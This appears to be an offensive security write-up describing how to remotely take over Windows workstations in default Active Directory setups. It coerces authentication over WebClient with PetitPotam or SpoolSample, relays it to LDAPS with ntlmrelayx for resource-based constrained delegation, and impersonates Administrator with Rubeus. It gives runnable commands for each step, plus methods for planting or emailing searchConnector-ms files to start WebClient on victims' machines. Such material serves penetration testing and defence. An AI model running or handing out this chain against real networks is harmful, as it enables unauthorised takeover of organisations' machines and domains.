 ## Overview

In the default configuration of Active Directory, it is possible to remotely take over Workstations (Windows 7/10/11) and possibly servers (if Desktop Experience is installed) when their WebClient service is running. This is accomplished in short by;

- Triggering machine authentication over HTTP via either MS-RPRN or MS-EFSRPC (as [demonstrated by @tifkin_](https://twitter.com/tifkin_/status/1418855927575302144?s=20)). This requires a set of credentials for the RPC call. 
- Relaying that machine authentication to LDAPS for configuring RBCD
- RBCD takeover

The caveat to this is that the WebClient service does not automatically start at boot. However, if the WebClient service has been triggered to start on a workstation (for example, via some SharePoint interactions), you can remotely take over that system. In addition, there are several ways to coerce the WebClient service to start remotely which I cover in a section below.

## RPC to RCE steps

1. To begin setup a relay to the LDAPS server for configuring RBCD. 

`ntlmrelayx.py -t ldaps://dc.windomain.local --delegate-access`
![NTLMRelayx.py](https://user-images.githubusercontent.com/46607768/126908959-4772e8ff-8ff5-4676-b7f9-39826cf5a1b3.png)

2. Attempt to trigger machine authentication over HTTP to your relay. This can be done via the publicly known RPC calls (and undoubtly various other unpublished ones)

`PetitPotam.exe logger@80/a.txt 192.168.38.104`
![PetitPotam](https://user-images.githubusercontent.com/46607768/126908997-a4c9ef39-dcf8-41a0-9278-292591804380.png)

OR

`SpoolSample.exe 192.168.38.104 logger@80/asdf`
![SpoolSample](https://user-images.githubusercontent.com/46607768/126909117-b09f50f2-f88a-48c6-9361-9237d4ecc104.png)

  Note for this critical step (remote machine authentication) to work;
  - The WebClient service needs to be running on the target (192.168.38.104 in this example). It may already be started on some workstations (worth trying to see if you get lucky) but if not see the next section. ***Update:*** [Lee Christensen has pointed out](https://twitter.com/tifkin_/status/1419806476353298442?s=20) that you can remotely enumerate this via the PowerShell command `Get-NTFile -Win32Path '\\target-ip\pipe\DAV RPC SERVICE'` which returns the named pipe if accessible. 
  - Your attacking host (`logger` in the case of my example) needs to be considered 'intranet' zoned by the target. One way to accomplish this is by using the netbios name of your attacking host (no periods). 
  - The URI syntax used above to coerce HTTP authentication (swapping in your attacking hostname).
  - LDAP signing/channel-binding must be disabled (this is the default).

3. If machine authentication is coerced, you should see a successful relay to LDAPS (assuming channel binding/signing is not enabled on the DC). This will result in the creation of a machine account for which RBCD is configured. If creating machine accounts is not possible, you can alternatively configure RBCD for a machine you have already compromised. 

![Successful Relay](https://user-images.githubusercontent.com/46607768/126909127-fb0711f0-f1eb-4e7c-9d14-0b92526aa87c.png)

4. From here, it's simply a matter of following the standard RBCD takeover methodology. I switched over to Rubeus, since my Linux host wasn't yet configured for Kerberos authentication but of course you can do this all from one host.

Calculate Password Hash:
`Rubeus.exe hash /password:NkQuBzsPk_AqKC6 /user:ZESLUQVX$ /domain:windomain.local`

Perform impersonation via S4U2Proxy:
`Rubeus.exe s4u /user:ZESLUQVX$ /rc4:D57DFD6E3BCDB1C2BF4D02CEE32F58C3 /impersonateuser:Administrator /msdsspn:cifs/WIN10.WINDOMAIN.LOCAL /ptt`

![S4U2proxy success](https://user-images.githubusercontent.com/46607768/126909145-793556e7-2960-4120-ac10-7133d4dfc9f2.png)

5. Enjoy your new workstation.

![Silver Ticket Use](https://user-images.githubusercontent.com/46607768/126909129-76c5858b-402e-4a1f-9cfe-402c59763e9a.png)

## Coercing the WebClient Service to Start

In my brief research/testing I found that a 'Search Connector' file could be used to start the WebClient service (as discussed/discovered by [@DTMSecurity](https://dtm.uk/exploring-search-connectors-and-library-files-on-windows/) and [@domchell](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/)). If you place said file locally, it will start the service locally (allowing for LPE) or you can place said file on an SMB share you have write access to. When a domain user browses that SMB share and views the 'searchConnector-ms' file you planted, the WebClient service will start on their workstation, and you can proceed with step 2 above. Of course you can also attempt NTLM relay of the user authentication, but our discussion/goal here is simply to have the WebClient started to enable machine takeover.

**Before:**
![WebClient Stopped](https://user-images.githubusercontent.com/46607768/126909134-d745f149-1fde-4b5b-81f3-f3e206e7bf0f.png)

**Creating the SearchConnector-ms File:**
![SearchConnector](https://user-images.githubusercontent.com/46607768/126909138-0c91612f-6743-491b-9a88-cb88006b2b09.png)

**After:**

![WebClient Running](https://user-images.githubusercontent.com/46607768/126909124-1d6dfcaa-ffb1-4557-ba49-3d91acee990b.png)

You can set the HTTP target as your attacker host so you know which workstation has had the WebClient started.

As an alternative approach (albeit less stealthy), you can email your target a 'Search Connector' file. If a user attempts to open the file, the WebClient service will start on their workstation. 